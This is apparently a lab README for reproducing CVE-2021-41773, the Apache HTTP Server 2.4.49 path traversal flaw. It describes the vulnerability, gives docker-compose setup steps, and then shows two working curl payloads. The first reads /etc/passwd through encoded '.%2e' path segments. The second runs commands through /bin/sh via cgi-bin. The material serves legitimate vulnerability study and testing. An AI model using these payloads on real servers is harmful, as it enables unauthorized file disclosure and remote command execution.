 # Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49 (CVE-2021-41773)

[中文版本(Chinese version)](README.zh-cn.md)

The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.

A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root.

If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## Vulnerable environment

Execute following commands to start a vulnerable Apache HTTP Server:

```
docker-compose build
docker-compose up -d
```

After the server is started, you can see the default page which says `It works!` of Apache HTTP Server through `http://your-ip:8080`.

## Exploit

A simple CURL command to reproduce the vulnerability (Note that `/icons/` must be a existing directory):

```
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

The `/etc/passwd` is disclosured successfully:

![](1.png)

With the mods cgi or cgid enabled on the server, this path traversal vulnerability would allow arbitrary command execution:

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![](2.png)
